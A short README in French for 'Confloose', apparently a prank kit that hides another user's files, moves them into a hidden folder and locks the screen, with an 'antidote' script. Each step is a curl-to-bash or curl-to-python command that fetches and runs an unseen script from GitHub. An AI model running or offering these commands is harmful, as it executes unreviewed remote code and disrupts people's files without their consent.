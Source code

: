 # Confloose

Cacher les fichiers en ."name"

python3 <(curl https://raw.githubusercontent.com/Arnoloh/Confloose/master/renameall.py)

Move tous dans .Confloose

bash <(curl https://raw.githubusercontent.com/Arnoloh/Confloose/master/dos)

Enter i3lock.


bash <(curl https://raw.githubusercontent.com/Arnoloh/Confloose/master/i3lock)


Antidote (renameAll)

python3 <(curl https://raw.githubusercontent.com/Arnoloh/Confloose/master/inverse.py)

Ra

bash <(curl https://raw.githubusercontent.com/Arnoloh/Confloose/master/ra)

